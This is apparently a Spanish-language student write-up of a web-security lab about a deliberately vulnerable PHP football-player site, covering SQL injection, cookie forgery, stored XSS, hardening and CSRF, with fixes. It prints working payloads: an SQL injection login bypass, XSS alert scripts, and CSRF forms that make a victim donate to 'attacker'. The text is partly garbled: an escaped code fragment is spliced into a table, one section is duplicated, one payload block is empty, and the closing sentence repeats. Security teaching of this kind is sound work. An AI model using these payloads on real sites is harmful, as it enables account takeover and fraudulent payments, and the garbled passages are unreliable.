






# Parte 1 - SQLi
La página no permite añadir jugadores a usuarios no autenticados, un formulario nos exige que introduzcamos un usuario y contraseña válidos. Lo primero que haremos es comprobar que este formulario es vulnerable a una inyección y aprovecharlo para saltarnos esta protección.

#### a) Dad un ejemplo de combinación de usuario y contraseña que provoque un error en la consulta SQL generada por este formulario. Apartir del mensaje de error obtenido, decid cuál es la consulta SQL que se ejecuta, cuál de los campos introducidos al formulario utiliza y cuál no.

| Pregunta                                                                 | Respuesta                                                                                                                                                                  |
|--------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Escribo los valores …                                                    | Usuario: `"`  —  Contraseña: `test` (cualquier valor sirve)                                                                                                               |
| En el campo …                                                            | En el campo `username` del formulario de login                                                                                                                            |
| Del formulario de la página …                                            | Del formulario de login “Authentication page” (código en private/auth.php)                                                                                                |
| La consulta SQL que se ejecuta es …                                      | `SELECT userId, password FROM users WHERE username = "";""`                                                                                                               |
| Campos del formulario web utilizados en la consulta SQL …               | Solo se utiliza el campo `username`                                                                                                                                       |
| Campos del formulario web **no** utilizados en la consulta SQL …        | El campo `password` del formulario no se usa en la consulta SQL (solo se compara después en PHP con el campo `password` devuelto por la consulta)                        |



#### b) Gracias a la SQL Injection del apartado anterior, sabemos que este formulario es vulnerable y conocemos el nombre de los campos de la tabla “users”. Para tratar de impersonar a un usuario, nos hemos descargado un diccionario que contiene algunas de las contraseñas más utilizadas (se listan a continuación):

    password
    123456
    12345678
    1234
    qwerty
    12345678
    dragon


| Pregunta                                                     | Respuesta                                                                                                                                                                                                                         |
|--------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Explicación del ataque                                       | El ataque consiste en repetir peticiones de login al formulario enviando siempre en el campo de usuario una inyección SQL que fuerce a que la consulta seleccione a un usuario concreto, por ejemplo el de `userId = 2` (`" OR userId=2 --`). |
|                                                              | … utilizando en cada interacción una contraseña diferente del diccionario hasta encontrar la que coincide con la almacenada en la tabla `users` para ese usuario (en este caso, `1234`).                                         |
| Campo de usuario con que el ataque ha tenido éxito           | `" OR userId=2 --`  (esto hace que la consulta devuelva al usuario con `userId = 2`, que es `luis`, sin necesidad de conocer su nombre de usuario).                                                                              |
| Campo de contraseña con que el ataque ha tenido éxito        | `1234`                                                                                                                                                                                                                            |



#### c) Si vais a private/auth.php, veréis que en la función areUserAndPasswordValid, se utiliza “SQLite3::escapeString()”, pero, aun así, el formulario es vulnerable a SQL Injections, explicad cuál es el error de programación de esta función y como lo podéis corregir.


| Pregunta                                      | Respuesta                                                                                                                                                                                                                     |
|-----------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Explicación del error …                       | Se está llamando a `SQLite3::escapeString()` sobre **toda** la sentencia SQL (`SELECT … WHERE username = "…"`), en lugar de aplicarla solo al dato introducido por el usuario. Como el valor del formulario se concatena sin escaparse correctamente, sigue siendo posible inyectar código SQL. |
| Solución: Cambiar la línea con el código …    | `$query = SQLite3::escapeString('SELECT userId, password FROM users WHERE username = "' . $user . '"');`                                                                                                                     |
| … por la siguiente línea …                    | `$query = 'SELECT userId, password FROM users WHERE username = "' . SQLite3::escapeString($user) . '"';`                                                                                                                      |

#### d) Si habéis tenido éxito con el apartado b), os habéis autenticado utilizando el usuario luis (si no habéis tenido éxito, podéis utilizar la contraseña 1234 para realizar este apartado). Con el objetivo de mejorar la imagen de la jugadora Candela Pacheco, le queremos escribir un buen puñado de comentarios positivos, pero no los queremos hacer todos con la misma cuenta de usuario.

Para hacer esto, en primer lugar habéis hecho un ataque de fuerza bruta sobre eldirectorio del servidor web (por ejemplo, probando nombres de archivo) y habéis encontrado el archivo add\_comment.php~. Estos archivos seguramente se han creado como copia de seguridad al modificar el archivo “.php” original directamente al servidor. En general, los servidores web no interpretan (ejecuten) los archivos .php~ sino que los muestran como archivos de texto sin interpretar.

Esto os permite estudiar el código fuente de add\_comment.php y encontrar una vulnerabilidad para publicar mensajes en nombre de otros usuarios. ¿Cuál es esta vulnerabilidad, y cómo es el ataque que utilizáis para explotarla?


| Pregunta                                   | Respuesta                                                                                                                                                                                                                      |
|--------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Vulnerabilidad detectada …                 | Confianza ciega en el valor de `$_COOKIE['userId']` (parámetro controlado por el cliente) que se inserta directamente en la consulta SQL; esto permite modificar la cookie y publicar comentarios en nombre de cualquier usuario (suplantación de identidad). |
| Descripción del ataque …                   | El atacante descubre el código en add_comment.php~.php, ve que el `userId` se toma de la cookie y prueba a cambiar manualmente la cookie `userId` (por ejemplo, a `1`, `2`, `3`, …). En cada petición a `add_comment.php?id=…` envía un comentario distinto con un `userId` modificado, consiguiendo que los comentarios aparezcan como si los hubieran escrito otros usuarios legítimos. |
| ¿Cómo podemos hacer que sea segura esta entrada? | No tomar nunca el `userId` directamente de una cookie manipulable, sino de una sesión de servidor (por ejemplo `$_SESSION['userId']`), validar que sea un entero y usar consultas preparadas/parametrizadas para generar el `INSERT` de comentarios. Además, si se usa cookie, debe ir firmada/encriptada y verificarse en el servidor antes de utilizar su valor. |



# Parte 2 – Cross Site Scripting (XSS)

### a) Comentario que genera un `alert`

| Pregunta                    | Respuesta                                                                                                                                                  |
|----------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Introduzco el mensaje …    | `<script>alert('XSS')</script>`                                                                                                                            |
| En el formulario de la página … | En el formulario para añadir comentarios de la página de comentarios del jugador (formulario de add_comment.php, accesible desde “Add comment” en show_comments.php). |






---

### b) ¿Por qué aparece `&amp;` en el código HTML?

| Pregunta        | Respuesta                                                                                                                                                                                                 |
|-----------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Explicación …   | En HTML el carácter `&` no puede escribirse directamente dentro de atributos o texto sin escapar, porque se interpreta como inicio de una entidad; por eso en el código fuente se usa `&amp;`, que el navegador renderiza como `&` en el enlace (`amount=100&destination=ACMEScouting`). |



---

### c) Problema en show_comments.php y corrección

| Pregunta                               | Respuesta                                                                                                                                                                                                                                                                                                                                                         |
|----------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| ¿Cuál es el problema?                  | En show_comments.php se muestran directamente los valores `username` y `body` de la base de datos dentro de HTML con `echo`, sin escapar el contenido. Como esos campos provienen de entrada de usuario (comentarios), es posible inyectar etiquetas `<script>` u otro HTML y que se ejecuten en el navegador (XSS almacenado). |
| Sustituyo el código de la/las líneas … | `<p>commented: " . $row['body'] . "</p>` |
| … por el siguiente código …           | `<p>commented: " . htmlspecialchars($row['body'], ENT_QUOTES, 'UTF-8') . "</p>` |

---

### d) Otras páginas afectadas por la misma vulnerabilidad

| Pregunta                      | Respuesta                                                                                                                                                                                                                                                                                                                                 |
|-------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Otras páginas afectadas …     | [HE/web/list_players.php](./web/list_players.php) (muestra los campos `name` y `team` de los jugadores sin escaparlos, que pueden contener código inyectado al crearlos/modificarlos) y [HE/web/buscador.php](./web/buscador.php) (usa `$_GET['name']` directamente tanto en la consulta SQL como en el título `Búsqueda de …` sin ningún tipo de escape). |
| ¿Cómo lo he descubierto?      | Revisando el código fuente y buscando `echo` de variables que provienen de entrada de usuario o de la base de datos sin pasar por `htmlspecialchars` (por ejemplo, `echo $name`, `echo $row['name']`, `echo $row['team']`) y comprobando luego manualmente que si introduzco `<script>alert(1)</script>` en esos campos, al mostrar la página se ejecuta el `alert`. |($row = $result->fetchArray()) {\n    echo \"<div>\n                <h4> \". $row['username'] .\"</h4> \n                <p>commented: \" . $row['body'] . \"</p>\n              </div>\";\n}\n``` |
| … por el siguiente código …           | ```php\nwhile ($row = $result->fetchArray()) {\n    $username = htmlspecialchars($row['username'], ENT_QUOTES, 'UTF-8');\n    $body     = htmlspecialchars($row['body'], ENT_QUOTES, 'UTF-8');\n\n    echo \"<div>\n                <h4> $username</h4> \n                <p>commented: $body</p>\n              </div>\";\n}\n``` |

---

### d) Otras páginas afectadas por la misma vulnerabilidad

| Pregunta                      | Respuesta                                                                                                                                                                                                                                                                                                                                 |
|-------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Otras páginas afectadas …     | [HE/web/list_players.php](./web/list_players.php) (muestra los campos `name` y `team` de los jugadores sin escaparlos, que pueden contener código inyectado al crearlos/modificarlos) y [HE/web/buscador.php](./web/buscador.php) (usa `$_GET['name']` directamente tanto en la consulta SQL como en el título `Búsqueda de …` sin ningún tipo de escape). |
| ¿Cómo lo he descubierto?      | Revisando el código fuente y buscando `echo` de variables que provienen de entrada de usuario o de la base de datos sin pasar por `htmlspecialchars` (por ejemplo, `echo $name`, `echo $row['name']`, `echo $row['team']`) y comprobando luego manualmente que si introduzco `<script>alert(1)</script>` en esos campos, al mostrar la página se ejecuta el `alert`. |

# Parte 3 - Control de acceso, autenticación y sesiones de usuarios

### a) Registro de usuarios (register.php)

**Problemas actuales (inseguros)**  
- En register.php se almacenan contraseñas en texto claro (`INSERT INTO users (username, password) VALUES (...)`).  
- Solo se hace un `SQLite3::escapeString`, pero no se usan sentencias preparadas.  
- No hay validación de fuerza mínima (longitud, complejidad) ni de calidad del usuario.  
- No hay protección frente a fuerza bruta/registros masivos (no límites, no CAPTCHA).  

**Medidas a implantar (con justificación)**  
- Guardar solo hashes seguros de contraseña (`password_hash()` + `password_verify()`): si se filtra la base de datos, no se revelan contraseñas en claro.  
- Validar en servidor: longitud mínima de usuario/contraseña, caracteres permitidos y comprobación de que el usuario no existe ya (para dar mensaje controlado, no un “Invalid query”).  
- Limitar intentos de registro desde una misma IP / mismo usuario y, en producción, exigir HTTPS para evitar que credenciales viajen en claro.  

**Medidas factibles en este proyecto (a nivel código)**  
- Antes del `INSERT`, validar:  
  - `strlen($username) >= 4`, `strlen($password) >= 8`.  
  - Si no cumple, mostrar un mensaje y no insertar.  
- Sustituir el almacenamiento de contraseña por un hash (sabiendo que habría que adaptar también el login):  
  - Calcular `$passwordHash = password_hash($password, PASSWORD_DEFAULT);`  
  - Insertar `$passwordHash` en lugar de la contraseña en claro.  

---

### b) Login seguro (auth.php)

**Problemas actuales**  
- En auth.php se compara la contraseña en texto claro (`if ($password == $row['password'])`).  
- Se guardan usuario y contraseña literalmente en cookies (`$_COOKIE['user']`, `$_COOKIE['password']`), lo que permite robarlas o modificarlas para suplantar usuarios.  
- No hay límite de intentos, ni retardo, ni bloqueo temporal.  

**Medidas a implantar (con justificación)**  
- No almacenar nunca contraseñas en cookies ni en el lado cliente; usar sesiones de servidor (`$_SESSION`) y solo guardar un identificador de usuario.  
- Usar `password_verify()` para comparar la contraseña con el hash almacenado, coherente con el cambio del registro.  
- Añadir medidas anti–fuerza bruta: contador de intentos fallidos por IP/usuario y pequeño retardo tras varios fallos.  
- Configurar las cookies de sesión con flags `HttpOnly` y `Secure` (en producción con HTTPS).  

**Medidas factibles en este proyecto**  
- Reemplazar el uso de cookies `user`, `password`, `userId` por sesiones:  
  - Llamar a `session_start()` y, si el login es correcto, guardar `$_SESSION['userId']` y `$_SESSION['username']`.  
  - En auth.php, comprobar la sesión en vez de las cookies.  
  - En logout, destruir la sesión (`session_unset()`, `session_destroy()`) en vez de manipular cookies con la contraseña.  

---

### c) Acceso a register.php

**Problema**  
- register.php está accesible para cualquiera, autenticado o no, y la aplicación, por enunciado, no debería permitir libre registro de usuarios.  

**Medidas posibles**  
- Restringir esta página solo a administradores (por ejemplo, un usuario `admin` o `userId=1`).  
- Ocultar el enlace al registro del resto de usuarios y, además, proteger la URL con una comprobación de permisos (no fiarse solo de la interfaz).  
- En un entorno real, incluso eliminar esta página en producción o protegerla con autenticación adicional (HTTP Basic/LDAP, panel de administración separado, etc.).  

**Medidas factibles aquí**  
- Volver a activar el `require` de autenticación:  
  - Descomentar la línea comentada `# require dirname(__FILE__) . '/private/auth.php';` para exigir login.  
- Añadir, al principio del script, una comprobación del usuario logueado: si `$_SESSION['userId']` no corresponde al administrador (por ejemplo `1`), redirigir a index.php o mostrar error.  

---

### d) Protección de la carpeta private

**Situación real en este proyecto**  
- La carpeta private está dentro del árbol del servidor web, por lo que, si el servidor no está configurado, se puede intentar acceder a `http://servidor/private/conf.php` o `database.db`.  
- En local, según cómo tengas configurado Apache/Nginx, probablemente **sí** se puede acceder directamente a esos ficheros, rompiendo la suposición del enunciado.  

**Medidas recomendadas**  
- Mover la carpeta `private` fuera del directorio público del servidor (por ejemplo, un nivel por encima de `web/`) y ajustar las rutas en `require_once`.  
- O, si debe quedar dentro, configurar el servidor para denegar el acceso web:  
  - Archivo `.htaccess` o configuración de vhost con `Deny from all` / `Require all denied` sobre `/private`.  
- Nunca exponer directamente ficheros sensibles como conf.php, scripts de creación de BD o la propia `database.db`.  

---

### e) Sesiones y suplantación de usuario

**Problemas detectados**  
- No se usan sesiones de PHP; la “sesión” se basa en cookies manipulables (`user`, `password`, `userId`) que el cliente puede cambiar para suplantar a otros usuarios.  
- No se regeneran identificadores ni se protegen frente a robo de cookies.  
- No se fijan flags de seguridad en las cookies (ni `HttpOnly` ni `Secure`).  

**Acciones recomendadas**  
- Sustituir el sistema actual por sesiones de PHP:  
  - `session_start()` en las páginas protegidas.  
  - Guardar solo `$_SESSION['userId']` (y opcionalmente `$_SESSION['username']`) al autenticar correctamente al usuario.  
  - Eliminar por completo el uso de cookies con la contraseña.  
- Regenerar el ID de sesión en cada login (`session_regenerate_id(true)`) para evitar fijación de sesión.  
- Configurar el entorno (php.ini o `session_set_cookie_params`) para que la cookie de sesión sea `HttpOnly` y `Secure` cuando se use HTTPS.  
- Mantener la lógica de logout en destruir sesión, no en borrar cookies manuales con credenciales.  

# Parte 4 - Servidores web

### ¿Qué medidas de seguridad se implementariaís en el servidor web para reducir el riesgo a ataques?

- **Cifrado y comunicación segura**  
  - Forzar HTTPS (redirección HTTP→HTTPS) y desactivar TLS inseguros (TLS 1.0/1.1, cifrados débiles).  
  - Usar certificados válidos (Let’s Encrypt o similar) y HSTS (`Strict-Transport-Security`).

- **Aislamiento de contenido sensible**  
  - Sacar carpetas tipo `private`, backups (`*.bak`, `*~`) y BD fuera del docroot.  
  - Si deben estar dentro, denegar acceso con la configuración del vhost / `.htaccess` (`Require all denied`).

- **Cabeceras de seguridad**  
  - `Content-Security-Policy` (CSP) para limitar scripts/recursos.  
  - `X-Frame-Options: DENY` o `SAMEORIGIN`.  
  - `X-Content-Type-Options: nosniff`.  
  - `Referrer-Policy` y `Permissions-Policy` adecuados.

- **Configuración del servidor y PHP**  
  - Desactivar listado de directorios (`Options -Indexes`).  
  - Desactivar `display_errors` en producción y registrar errores en log.  
  - Limitar `upload_max_filesize`, `post_max_size`, `max_execution_time`.  
  - Desactivar funciones peligrosas de PHP que no se usen (`exec`, `shell_exec`, etc.).

- **Control de acceso y autenticación**  
  - Proteger paneles de administración por IP o autenticación adicional (HTTP Basic + contraseña fuerte).  
  - Limitar intentos desde una misma IP (mod_evasive, rate limiting en Nginx).  

- **Endurecimiento del sistema**  
  - Ejecutar el servidor con un usuario sin privilegios y permisos mínimos en ficheros/carpetas.  
  - Mantener servidor web, PHP y dependencias actualizados.  
  - Activar y revisar logs de acceso y error, y usar herramientas de bloqueo automático (Fail2ban, WAF).


# Parte 5 - CSRF

### 5.a) Botón Profile que lanza la donación

| Pregunta      | Respuesta                                                                                                                                                                                                 |
|---------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| En el campo … | Campo `team` (o `name`) del jugador que editamos desde la página de edición de jugadores (se verá luego en el listado list_players.php).                               |
| Introduzco …  | `<form action="http://web.pagos/donate.php?amount=100&receiver=attacker" method="GET" target="_blank"><input type="submit" value="Profile"></form>`  Así, en el listado aparece un botón “Profile” que al pulsarlo envía la petición a `web.pagos`. |

---

### 5.b) Comentario que no necesita que el usuario pulse nada

La idea es que, al cargar los comentarios de un jugador en [HE/web/show_comments.php](./web/show_comments.php), se haga **automáticamente** la petición a `web.pagos` sin hacer clic.

Un comentario de ejemplo:

```html

```

- El navegador del usuario, al mostrar el comentario, carga la imagen.  
- La URL de la imagen es en realidad la petición GET a `donate.php`, que se manda de forma automática junto con las cookies de sesión de `web.pagos` (si el usuario estaba logueado allí).

---

### 5.c) Condición necesaria para que la donación se efectúe

Para que las donaciones se realicen cuando el usuario ve el comentario o pulsa el botón del apartado a):

- El usuario víctima debe estar **previamente autenticado** en `web.pagos` (tener una sesión activa cuyo identificador va en una cookie).  
- Al visitar nuestra página, el navegador enviará automáticamente la cookie de sesión a `web.pagos` junto con la petición forzada (`donate.php?amount=100&receiver=attacker`), por lo que la plataforma interpretará la operación como una acción legítima iniciada por ese usuario.

Es decir: la condición es que la víctima tenga sesión iniciada en `web.pagos` en ese momento.

---

### 5.d) Si `donate.php` pasa a usar solo POST

Pasar los parámetros a POST **no blinda** el sistema frente a CSRF: podemos seguir forzando una petición POST desde otra página con un formulario invisible y auto–enviado.

Un mensaje (comentario) equivalente al de 5.b), pero enviando `amount` y `receiver` por POST, sería:

```html
<form id="pay" action="http://web.pagos/donate.php" method="POST">
  <input type="hidden" name="amount" value="100">
  <input type="hidden" name="receiver" value="attacker">
</form>
<script>
  document.getElementById('pay').submit();
</script>
```

Al mostrarse el comentario, el script envía automáticamente el formulario por POST, produciendo el mismo ataque CSRF mientras el usuario siga autenticado en `web.pagos`.Al mostrarse el comentario, el script envía automáticamente el formulario por POST, produciendo el mismo ataque CSRF mientras el usuario siga autenticado en `web.pagos`.